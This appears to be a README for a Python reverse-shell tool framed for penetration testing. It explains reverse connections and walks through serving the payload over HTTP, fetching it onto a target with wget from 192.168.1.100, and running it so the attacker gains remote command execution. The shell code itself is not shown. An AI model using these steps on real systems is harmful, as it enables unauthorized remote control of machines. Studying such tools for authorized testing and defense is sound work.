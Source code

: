 # Reverse-Shell
Python reverse shell that can be used during a penetration test.

# Background
After exploiting a machine the attacker needs a way to get access to the machine even after the vulnerability used bythe attacker is fixed. These scenario the attacker uses a reverse connection. By default most enterprise firewalls will block outside connection from connecting into the network, hence the attacker will have to get the target to connect to them using a reverse connection. The reverse shell above is composed of socket and relies onthe TCP protocol which is connection oriented. Socket is an API that allow programs to communicate over a network.
The reverse shell consists of two parts:

    a)Ability to connect to the attacker machine.
    b)Allows an attacker to execute terminal commands on a victim machine.

Accessing victim machine can be archived by carrying out reccon to identify open ports and services running onthem, then looking for exploits for this services. When an attacker gets an exploit to leverage a vulnerability onthe target they send malicious packets to the processes hosted onthe port and possibly compromise the system.

# Using the Python Reverse Shell
Host the payload on a server using

    kali> python3 -m http.server 8080
![pythonhttp server](https://github.com/user-attachments/assets/8739c333-18d8-4247-b90f-b8eb093cb8f0)

Then use the wget command to download the payload onto the system from the server

    kali> wget 192.168.1.100:8080/reverseShell.py
![delivery](https://github.com/user-attachments/assets/dc80e3f0-4619-4098-96cf-d98c94342d67)

Start the server on the attacker machine:

    kali> python3 server.py

Then execute the reverse shell onthe target:

    kali> python reserseShell.py 192.168.1.100 &                      Note: The & operator in bash is used to background a process.
![execute on target](https://github.com/user-attachments/assets/c9740c2c-33bd-4d0c-ba5e-ecddd269becc)

Now onthe Kali machine we get a connection onto our server allowing us to execute system commands onthe compromised system.
![c c](https://github.com/user-attachments/assets/ac832b50-3c46-44e2-adc8-e7a062bd69b7)


